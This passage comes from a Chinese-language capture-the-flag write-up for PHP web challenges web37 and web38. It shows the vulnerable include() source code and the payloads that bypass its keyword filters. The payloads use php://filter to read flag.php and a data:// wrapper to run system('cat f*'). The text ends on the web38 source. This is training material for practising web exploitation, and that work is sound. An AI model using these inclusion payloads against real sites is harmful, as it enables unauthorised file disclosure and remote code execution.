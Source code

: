 > 
Payload


```
?c=include$_GET[a]?&gt;&amp;a=php://filter/read=convert.base64-encode/resource=flag.php

```

## web37

> 
源码


```
&lt;?php
​
//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
$c=$_GET['c'];
if(!preg_match("/flag/i", $c)){
include($c);
echo$flag;

}

}else{
highlight_file(__FILE__);
}

```

> 
Payload


```
?c=data://text/plain,&lt;?php system('cat f*');

```

## web38

> 
源码


```
&lt;?php

//flag in flag.php
error_reporting(0);
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|php|file/i", $c)){
        include($c);
        echo $flag;
    
    }
        
}else{
    highlight_file(__FILE__);
} 

```
